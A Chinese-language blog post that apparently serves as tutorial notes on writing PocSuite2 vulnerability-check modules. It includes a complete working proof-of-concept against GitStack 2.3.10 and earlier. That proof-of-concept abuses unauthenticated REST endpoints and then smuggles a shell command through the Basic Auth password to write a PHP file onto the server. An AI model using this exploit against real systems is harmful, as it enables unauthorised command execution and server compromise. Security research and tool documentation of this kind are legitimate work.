 ```yaml
---
layout: post
title:  "PocSuite编写及使用笔记"
date:   2019-7-29 15:18:43
categories: Development
author: co0ontty
categories: 安全开发 ALL
tags: 安全开发 ALL
describe: PocSuite编写及使用笔记
cover: '/assets/img/posts/pocsuitecover.png'
---
```

## 关于PocSuite
[PocSuite](http://pocsuite.org)是由知道创宇404实验室编写的一款基于python的开源漏洞利用框架。PocSuite包含漏洞检测和利用两种模式，可以针对特定漏洞对多个目标进行探测并返回漏洞检测及利用的结果。
![使用过程图](/assets/img/posts/pocsuite1.png)
## PocSuite2
关于PocSuite2的编写方法及使用过程中的注意事项
### PocSuite2编写格式
PocSuite检测模块的构成主要由以下几部分构成：
·python库的引用模块
·关于poc的介绍信息模块
·漏洞检测代码模块
·漏洞利用代码模块
·返回结果模块
### python库引用模块
```python
from pocsuite.api.poc import register
from pocsuite.api.poc import Output, POCBase
import requests
import random
import os
import sys
import hashlib
import string
from requests.auth import HTTPBasicAuth
```
在该模块声明漏洞检测及利用过程中需要使用到的python库，其中`from pocsuite.api.poc import Output, POCBase 和 from pocsuite.api.poc import register`是必须要引用的库

### 关于poc的介绍信息模块
```python
    vulID = 'N/A' #根据seebug提供的漏洞编号进行编写，没有的话可以写N/A
    version = '1.0' #该poc的版本
    author = 'co0ontty' #编写作者
    vulDate = '2019-7-11' #漏洞时间
    createDate = '2019-7-16' #创建poc的时间
    updateDate = '2019-7-16' #更新时间
    references = ['https://xz.aliyun.com/t/2235'] #关于该漏洞的参考信息网站
    name = 'GitStack <= 2.3.10 远程命令执行漏洞分析' #漏洞名称
    appPowerLink = 'https://gitstack.com' #存在漏洞的服务的官网
    appName = 'GitStack' #存在漏洞的服务的名称
    appVersion = 'GitStack <= 2.3.10' #存在漏洞的服务的版本
    vulType = '文件上传' #该漏洞的类型（参考seebug官网的漏洞类型分类）
    desc = '''
    该漏洞利用GitStack正常使用过程中调用的接口的未授权访问漏洞，越权读取、创建、修改用户列表、仓库。通过进一步利用实现恶意文件的上传。
    ''' # 漏洞的介绍信息
    samples = []
    install_requires = []
```
### 漏洞检测代码模块
```python
def _verify(self):
        result = {}
        target = self.url
        #your verify code
        if 判断条件:
            result['VerifyInfo'] = {} # 标识为成功
            result['VerifyInfo']['URL'] = self.url #返回到结果中的url
            pass
        return self.parse_output(result) # 返回结果
```
系统会根据用户编写的检测代码对漏洞进行检测，设置判断条件后，如果判断条件为真，则使用`result['VerifyInfo'] = {}`返回判断结果为真，并且使用`result['VerifyInfo']['URL'] = self.url`返回向返回结果中输出特定的值。最后程序在运行`return self.parse_output(result)`结果输出代码的时候，如果存在`result['VerifyInfo'] = {}`则返回success，如果不存在则判断为faild
### 漏洞利用代码模块

```python
def _attack(self):
    # attack code 
```
一般情况下会设置检测代码与漏洞利用代码相同：
```python
_attack = _verify
```
### 返回结果模块

```python
def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output
```
将漏洞检测模块或者漏洞利用模块的结果输出到屏幕中显示

### 完整代码分享
GitStack任意文件上传漏洞
```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
# from pocsuite.api.request import req
from pocsuite.api.poc import register
from pocsuite.api.poc import Output, POCBase
import requests
import random
import os
import sys
import hashlib
import string
from requests.auth import HTTPBasicAuth


class TestPOC(POCBase):
    vulID = 'N/A'
    version = 'GitStack <= 2.3.10'
    author = 'co0ontty'
    vulDate = '2019-7-11'
    createDate = '2019-7-16'
    updateDate = '2018-3-31'
    references = ['https://xz.aliyun.com/t/2235']
    name = 'GitStack <= 2.3.10 远程命令执行漏洞分析'
    appPowerLink = 'https://gitstack.com'
    appName = 'GitStack'
    appVersion = 'GitStack <= 2.3.10'
    vulType = '文件上传'
    desc = '''
    该漏洞利用GitStack正常使用过程中调用的接口的未授权访问漏洞，越权读取、创建、修改用户列表、仓库。通过进一步利用实现恶意文件的上传。
    '''
    samples = []
    install_requires = []

    def _verify(self):
        result = {}
        target = self.url
        repository = 'rce'
        username = 'rce'
        password = 'rce'
        csrf_token = 'token'
        user_list = []
        r = requests.get("{}/rest/user/".format(target))
        try:
            user_list = r.json()
            user_list.remove('everyone')
        except:
            pass
        if len(user_list) > 0:
            username = user_list[0]
        else:
            r = requests.post("{}/rest/user/".format(target),data={'username' : username, 'password' : password})
        r = requests.get("{}/rest/repository/".format(target))
        repository_list = r.json()
        if len(repository_list) > 0:
            repository = repository_list[0]['name']
        r = requests.post("{}/rest/repository/".format(target), cookies={'csrftoken' : csrf_token}, data={'name' : repository, 'csrfmiddlewaretoken' : csrf_token})
        r = requests.post("{}/rest/repository/{}/user/{}/".format(target, repository, username))
        r = requests.delete("{}/rest/repository/{}/user/{}/".format(target, repository, "everyone"))
        random_file_name = ''.join(random.sample(string.ascii_letters+string.digits,16))+".php"
        random_identify_code = ''.join(random.sample(string.ascii_letters+string.digits,35))
        r = requests.get('{}/web/index.php?p={}.git&a=summary'.format(target, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php echo"'+random_identify_code+'"; ?>" > c:'+random_file_name))
        test_url = target+"/web/"+random_file_name
        r = requests.get(test_url)
        if (r.status_code == 200)&(random_identify_code in r.text):
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = self.url
            pass
        return self.parse_output(result)

    _attack = _verify

    def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output


register(TestPOC)

```
## 库的使用
### requests 库
pocsuite中自带经过改装的req，`from pocsuite.api.request import req`，pocsuite 中的req可以使用随机的UA
### urlparse
使用如下命令时，py中调用目标的方式时通过 self.url 和 self.target 
```python
pocsuite -r portals_urllib.py -u 172.16.5.155:8080
```
self.url 与 self.target 的区别为：如果 -u 传递的参数没有指定 http 或者 https 的话，self.url 会自动添加 http:// 而 self.target 则不会做任何操作。
![使用过程图](/assets/img/posts/pocsuite-4.png)
不管怎样，self.url 和 self.target 均无法对端口进行识别和操作，所以我们要引入 urlparse 库：
### urlparse库
**urlparse.urlparse(分离）**
![urlparse.urlparse](/assets/img/posts/pocsuite-6.png)
**urlparse.urljoin（合并）**
![urlparse.urljoin](/assets/img/posts/pocsuite-5.png)